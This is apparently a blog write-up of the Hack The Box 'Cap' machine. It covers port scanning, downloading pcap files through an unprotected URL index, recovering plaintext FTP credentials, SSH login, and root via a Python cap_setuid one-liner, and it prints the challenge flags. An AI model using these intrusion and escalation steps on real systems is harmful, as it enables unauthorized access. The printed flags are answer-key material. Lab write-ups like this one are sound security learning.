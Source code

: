 ```yaml
---
layout: post
title: 'Hack The Box Writeup: Cap'
date: '2021-07-29 15:12:11 -0400'
categories: ctf
tags: htb web privesc network
---
```


![Machine avatar](https://www.hackthebox.eu/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png)

## Port Scan
First run an nmap scan with service enumeration, default scripts, and OS identification.
```bash
nmap 10.10.10.245 -sV -sC -O
```
Which gives the following output:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
...
|_http-server-header: gunicorn
|_http-title: Security Dashboard
...
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports at this address. An FTP server on port 21, SSH server on port 22, and   an HTTP server on port 80. The HTTP server is running Gunicorn which is Python web server similar to Flask.

## Web Enumeration
Lets hop into a browser and check out the web server. Visiting it, we see there are 4 tabs we can visit.

> 10.10.10.245

![tab 1](https://i.ibb.co/mHBfxTP/tab1.jpg)
*A visual representation of security events, failed login attempts, and port scans over the last 24 hours at this ip address.*
> 10.10.10.245/data/0

![tab 2](https://i.ibb.co/xD8S7N0/tab2.jpg)
*Pressing the second tab for the security snapshot goes to /capture. This in turn redirects to /data/ followed by a number. We can manually change this to 0 or any other number. On this page we can also download a pcap file corresponding to this number.*

Presumably we will need to investigate some of these pcap files with Wireshark as the name of the box is "Cap". Also note that pressing download redirects to /download/0. This way we can download pcap files directly from a url including indices which are missing data pages like at /data/9.
> 10.10.10.245/ip

![tab 3](https://i.ibb.co/g37kVFT/tab3.jpg)
*The output of the ip shell command at 10.10.10.245*
> 10.10.10.245/netstat

![tab 4](https://i.ibb.co/4jZ33Rr/tab4.jpg)
*The output of the netstat shell command at 10.10.10.245*

After investigation, it seems that the incrementing numbers after /data/ represent portions of the network log in chronological order. Lets start at 10.10.10.245/download/0 and download 0.pcap all the way to 10.10.10.245/download/25 for 25.pcap so we can read any part of the log with Wireshark. This can be done with this simple curl one liner:

```bash
curl http://10.10.10.245/download/[0-25] -O
```

## Packet Analysis
First, let's open 0.pcap from Wireshark.
Sorting the packets by protocol and examining the FTP traffic we can immediately see an unencrypted FTP login.
![Wireshark log](https://i.ibb.co/HzWMgDV/wire0.jpg)
From this traffic we get the following username and password to login to the FTP server.

> USER nathan
> PASS Buck3tH4TF0RM3!

We can also see that this same user retrieved a file named notes.txt before the log ends.
## FTP Enumeration
Login to the ftp server with

```bash
ftp 10.10.10.245
```

Then entering nathan's username and password we succesfully logged in! In nathan's home directory there is a file called user.txt which holds the first flag for HTB.

> f8ee4208619dd70ee616d7cd81628906

To get a shell, lets try to connect to ssh server that is running with the same credentials

```bash 
ssh nathan@10.10.10.245
```
```
    ...
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
    ...
    nathan@cap:~$ ls
    linpeas.sh  ls.txt  snap  user.txt  user2.txt
```
Somebody else conveniently already downloaded linpeas.sh so we can do linux enumeration without having to scp that.
## Linux Privilege Escalation
To get linpeas.sh if it is not already on this system, run the scp command using nathan's account then ssh in on port 22.

```bash
./linpeas.sh
```
  
One interesting line in the enumeration results is:

> /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

It seems that this python binary has the capability to set the user id to root. We can do this by running python code which sets the uid then executes a new shell.

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

And now we are root!
The last flag is located at /root/root.txt
 
```bash
cat root.txt
```

> e516cb179c03e3c916f04f2acef5b4bc

With that, we have pwned this machine
